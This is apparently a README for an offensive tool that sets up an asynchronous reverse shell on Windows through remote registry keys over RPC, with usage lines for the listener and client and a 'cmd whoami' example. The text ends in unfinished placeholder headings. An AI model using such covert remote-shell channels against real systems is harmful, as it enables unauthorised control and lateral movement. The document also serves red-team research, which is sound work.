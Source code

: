 # Everything Is A(n asynchronous) Reverse Shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard TCP reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is also just like Cobalt Strikes sleep timer. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows administrators to read, write & delete registry keys on remote systems using the RPC protocol. Using  custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, should only be suitable for lateral movement on local networks. 

### Usage:
**Server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
>help
sleep 10         Set the sleep time to 10
cmd whoami       Execute whoami
exit             Exit the application gracefully
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**How it works:**
When starting the server, the Remote Registry Service is enabled, and the following registry keys are created: cmd, output & sleep. 

### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
